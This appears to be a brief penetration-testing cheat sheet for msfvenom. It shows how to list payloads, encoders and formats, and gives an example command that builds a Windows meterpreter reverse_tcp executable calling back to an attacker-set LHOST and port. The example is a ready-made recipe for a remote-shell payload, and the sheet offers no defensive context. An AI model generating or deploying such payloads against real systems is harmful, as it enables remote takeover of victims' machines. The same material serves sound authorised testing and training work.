 # List stuff

<code> msfvenom -l \<type\>    </code>
<br> Where \<type\>: payloads, encoders, nops, platforms, archs, encrypt, formats, all


Example:
<code>  msfvenom -l payloads </code> 
  
# Generate payload
  
Example:
  
  <code> msfvenom -p windows/meterpreter/reverse_tcp  LHOST=192.168.xxx.xxx LPORT=xxx -f exe > meter.exe   </code>
